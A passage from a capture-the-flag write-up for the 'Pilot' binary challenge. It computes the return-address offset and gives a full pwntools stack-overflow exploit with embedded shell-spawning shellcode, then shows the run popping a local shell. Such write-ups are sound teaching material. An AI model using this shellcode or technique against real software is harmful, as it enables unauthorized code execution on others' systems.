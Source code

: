 ```
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes (which is consistent with what ghidra showed us). So we have a way to overwrite the return address, a place to store our shellcode, and we know where it is in memory. With this we can write our exploit:

```
from pwn import *

target = process('./pilot')

print target.recvuntil("[*]Location:")

leak = target.recvline()

inputAdr = int(leak.strip("\n"), 16)

payload = ""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"

# Padding to the return address
payload += "0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```

When we run it:

```
$ python3 exploit.py
[+] Starting local process './pilot': pid 12417
exploit.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(target.recvuntil("[*]Location:"))
b'[*]Welcome DropShip Pilot...\n[*]I am your assitant A.I....\n[*]I will be guiding you through the tutorial....\n[*]As a first step, lets learn how to land at the designated location....\n[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...\n[*]Good Luck Pilot!....\n[*]Location:'
[*] Switching to interactive mode
[*]Command:$ w
 11:03:50 up  4:01,  1 user,  load average: 0.40, 0.42, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               07:08   ?xdm?   6:16   0.02s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
$ ls
exploit.py  pilot  readme.md
$  
```

Just like that, we popped a shell!
